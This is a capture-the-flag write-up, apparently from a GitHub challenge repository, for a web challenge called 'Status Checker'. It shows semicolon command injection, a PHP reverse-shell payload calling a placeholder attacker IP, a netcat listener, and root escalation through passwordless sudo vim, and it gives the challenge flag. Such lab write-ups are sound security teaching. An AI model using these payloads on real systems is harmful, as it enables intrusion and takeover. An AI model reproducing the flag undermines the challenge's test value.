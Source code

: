 We are given a site where we can check the status of websites.

Entering a valid URL such as ``https://google.com`` will return us the HTTP status code as seen in the following screenshot.

![wimg-1](https://github.com/lenebread/GiTxHextech-Challenge-Repo/blob/2172799693442df396d9857becae25e70e1ca596/challenges/web/Status%20Checker/images/wimg-1.png)

Entering a semi-colon (;) will break the command. We can try to use the payload ``; whoami``  and we are returned ``www-data`` as our user as seen in the following screenshot.

![wimg-2](https://github.com/lenebread/GiTxHextech-Challenge-Repo/blob/a0a1f11bace0c0ed057208ff3d3ce65661dfe2af/challenges/web/Status%20Checker/images/wimg-2.png)

We can attempt to spawn a reverse shell by first having netcat listen on our desired port. In this example, the port will be 45101 and the netcat command will be ``nc -nlvp 45101`` as seen in the following screenshot.

![wimg-3](https://github.com/lenebread/GiTxHextech-Challenge-Repo/blob/a0a1f11bace0c0ed057208ff3d3ce65661dfe2af/challenges/web/Status%20Checker/images/wimg-3.png)

Once its listening on the port, we can use the following payload to spawn the reverse shell. Replace "YOUR-IP-HERE" with your IP address.

```
; php -r '$sock=fsockopen("YOUR-IP-ADDRESS",45101);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Input the above payload into the input box as seen in the following screenshot.

![wimg-4](https://github.com/lenebread/GiTxHextech-Challenge-Repo/blob/a0a1f11bace0c0ed057208ff3d3ce65661dfe2af/challenges/web/Status%20Checker/images/wimg-4.png)

Click on the "Check HTTP Status" and observe that the website has hung. Return to the netcat session and observe that we have gotten a shell as seen in the following screenshot.

![wimg-5](https://github.com/lenebread/GiTxHextech-Challenge-Repo/blob/a0a1f11bace0c0ed057208ff3d3ce65661dfe2af/challenges/web/Status%20Checker/images/wimg-5.png)

We can spawn an interactive shell using the command ``script -qc /bin/bash /dev/null``. Once done, we can explore the system. We can use the command ``sudo -l`` and see that we can run the command ``vim`` as root without a password as seen in the following screenshot.

![wimg-6](https://github.com/lenebread/GiTxHextech-Challenge-Repo/blob/64886584ff8936fb97898bbd2e3c574d9482bacc/challenges/web/Status%20Checker/images/wimg-6.png)

Using GTFOBins, we are able to breakout and obtain a shell as a root user using the following command:

```
vim -c ':!/bin/sh'
```

Using the command ``whoami`` we can see that we are now the root user as seen in the following screenshot.

![wimg-7](https://github.com/lenebread/GiTxHextech-Challenge-Repo/blob/64886584ff8936fb97898bbd2e3c574d9482bacc/challenges/web/Status%20Checker/images/wimg-7.png)

We can obtain the flag in the root directory by using the command ``cd /root`` and ``cat flag.txt``. 

The flag is ``HEX{N3tw0rK_ErR_500_W1kS2kKiL}``.
